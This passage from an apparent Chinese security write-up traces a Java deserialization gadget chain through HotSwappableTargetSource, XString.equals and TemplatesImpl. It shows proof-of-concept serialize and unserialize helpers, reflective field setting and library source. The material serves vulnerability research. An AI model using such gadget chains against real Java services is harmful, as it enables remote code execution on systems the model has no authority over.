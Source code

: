 ```plain
        serialize(hashMap);
        unserialize("ser.bin");
}

public static void setValue(Object obj,String field,Object value) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj,value);
    }
public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
```

来看一下调用栈  
[![](assets/1698893403-a849c6599df42d77fb599e199bded591.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231017205943-0a548bd0-6ced-1.png)

在Xtring#equals方法中，调用了obj2的toString()方法，这个obj2就是`HotSwappableTargetSource`中和XString对象作比较的`templatesimpl`对象

```plain
public boolean equals(Object obj2)
  {

    if (null == obj2)
      return false;

      // In order to handle the 'all' semantics of
      // nodeset comparisons, we always call the
      // nodeset function.
    else if (obj2 instanceof XNodeSet)
      return obj2.equals(this);
    else if(obj2 instanceof XNumber)
        return obj2.equals(this);
    else
      return str().equals(obj2.toString());
  }
```

